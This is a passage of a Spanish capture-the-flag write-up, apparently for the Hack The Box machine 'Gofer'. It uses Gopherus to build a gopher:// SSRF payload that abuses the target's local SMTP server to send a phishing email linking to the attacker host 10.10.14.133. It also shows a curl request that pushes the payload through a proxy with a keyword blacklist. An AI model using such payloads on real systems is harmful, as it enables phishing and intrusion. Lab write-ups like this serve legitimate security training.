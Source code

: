 Podríamos utilizar [Gopherus](https://github.com/tarunkant/Gopherus) para generar payloads ya que lo que mas me llama la atención es que podemos intentar hacer SSRF a través de gopherus al protocolo SMTP.

Como esta herramienta está desarrollada en `python2`, vamos a utilizar un PR de un usuario llamado `Antabuse-123` el cual convierte la herramienta para utilizarla con `python3`

Primero clonamos el repositorio.
```shell
git clone https://github.com/tarunkant/Gopherus
```

Y luego actualizamos la rama a esta PR.
```shell
gh pr checkout 18
```

¡Y ya podemos utilizar la herramienta!
```shell
$ python3 gopherus3.py -h
usage: gopherus3.py [-h] [--exploit EXPLOIT]

options:
  -h, --help         show this help message and exit
  --exploit EXPLOIT  mysql, postgresql, fastcgi, redis, smtp, zabbix, pymemcache,
                     rbmemcache, phpmemcache, dmpmemcache
```

Queremos mandar un mensaje a `jhudson` que es Jocelyn, esta persona parece que es un poco despistada según el mail que hemos leido antes.

Este es el payload generado
```shell
gopher://127.0.0.1:25/_MAIL%20FROM:jdavis%40gofer.htb%0ARCPT%20To:jhudson%40gofer.htb%0ADATA%0AFrom:jdavis%40gofer.htb%0ASubject:Login%0AMessage:click%20here%20to%20login%20-%3E%20http://10.10.14.133:8081/testing%0A.
```

Con suerte, si el servidor SMTP está mal configurado este correo se enviará a `jhudson@gofer.htb` y si sigue siendo igual de descuidada deberíamos de ver una solicitud de este usuario a nuestro sitio web.

Pero tenemos un problema...
```shell
$ curl -X POST 'http://proxy.gofer.htb/index.php?url=gopher://127.0.0.1:25/_MAIL%20FROM:jdavis%40gofer.htb%0ARCPT%20To:jhudson%40gofer.htb%0ADATA%0AFrom:jdavis%40gofer.htb%0ASubject:Login%0AMessage:click%20here%20to%20login%20-%3E%20http://10.10.14.133:8081/testing%0A.' && echo
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: /127 !</body></html>
```

Después de probar varias cosas, detecté que `gofer.htb` no está en la lista negra y podremos cargar el recurso de la página principal.

